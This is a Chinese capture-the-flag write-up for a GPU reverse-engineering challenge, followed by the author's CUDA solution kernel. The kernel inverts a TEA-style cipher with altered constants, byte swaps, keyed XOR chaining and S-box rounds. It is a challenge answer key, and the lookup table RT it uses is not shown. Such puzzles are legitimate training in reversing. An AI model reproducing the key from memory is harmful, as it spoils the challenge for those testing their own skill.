为了降低题目的难度，题目输出了每个加密过程的中间结果，选手可以通过观察输入和输出分析算法。最后一个加密过程无法仅通过观察输入和输出进行总结，需要选手认真逆向 PTX 汇编。同时，选手也可以通过观察输入输出与 PTX 汇编的对比来进行学习。

题目中涉及的算法，涉及到较多次循环计算，建议用 cuda 实现编程实现解题脚本。

如下是最终实现的解题程序

```
#define XOR_LOOPS  0xA00000
#define XOR_ROUNDS 0x5
#define TEA_ROUNDS 0xA00000

__global__ void decrypt_kernel(unsigned char* data, unsigned char key) {
    int tid = threadIdx.x;
    int i = blockIdx.x * blockDim.x + tid;

    data[i] = data[i] ^ i;

    if(tid < blockDim.x && tid % 8 == 0) {
        unsigned int v0 = *(unsigned int *)(data + i);
        unsigned int v1 = *(unsigned int *)(data + i + 4);
  
        unsigned int sum = 0;
        for(unsigned j = 0; j < TEA_ROUNDS; j++) {
            sum += 0x9e3779b9;
        }

        for(unsigned j = 0; j < TEA_ROUNDS; j++) {
            v1 -= ((v0 << 4) + 0x3c6ef372) ^ (v0 + sum) ^ ((v0 >> 5) + 0x14292967);
            v0 -= ((v1 << 4) + 0xa341316c) ^ (v1 + sum) ^ ((v1 >> 5) + 0xc8013ea4);
      
            sum -= 0x9e3779b9;
        }
        *(unsigned int *)(data + i) = v0;
        *(unsigned int *)(data + i + 4) = v1;
    }
    __syncthreads();
  

    if (tid > 0 && tid < blockDim.x && tid % 2 == 1) {
        int cj = blockIdx.x * blockDim.x + tid;
        int cj1 = blockIdx.x * blockDim.x + (tid + 1) % blockDim.x;
        unsigned tmp = data[cj];
        data[cj] = data[cj1];
        data[cj1] = tmp;
    }
    __syncthreads();


    if(tid % 2 == 0 && tid < blockDim.x) {
        int cj = blockIdx.x * blockDim.x + tid;
        int cj1 = blockIdx.x * blockDim.x + (tid + 1) % blockDim.x;
        unsigned tmp = data[cj];
        data[cj] = data[cj1];
        data[cj1] = tmp;
    }
    __syncthreads();

    if (tid == 0) {
        for(int j = blockDim.x - 1; j >= 0; j--) { 
            int cj = blockIdx.x * blockDim.x + j;
            int cj1 = blockIdx.x * blockDim.x + (j + 1) % blockDim.x;
            data[cj] = data[cj] ^ data[cj1] ^ key;
        }
    }
    __syncthreads();

    unsigned char ch = data[i];
    for(int k = 0; k < XOR_ROUNDS; k++) { 
        for(int j = XOR_LOOPS - 1; j >= 0; j--) {
            ch = ch ^ (j & 0xFF);
            ch = (ch << 4) | (ch >> 4);
            ch = RT[ch];
        }
    }
    ch = (ch << 4) | (ch >> 4);
    ch = ch ^ ((key + i*73) % 256);
    data[i] = ch;
}

void cuda_decrypt(unsigned char* data, int len, unsigned char key) {
    unsigned char *d_data;
    cudaMalloc(&d_data, len);
    cudaMemcpy(d_data, data, len, cudaMemcpyHostToDevice);
    decrypt_kernel<<<(len+255)/256, 256>>>(d_data, key);
    cudaMemcpy(data, d_data, len, cudaMemcpyDeviceToHost);
    cudaFree(d_data);
}
```
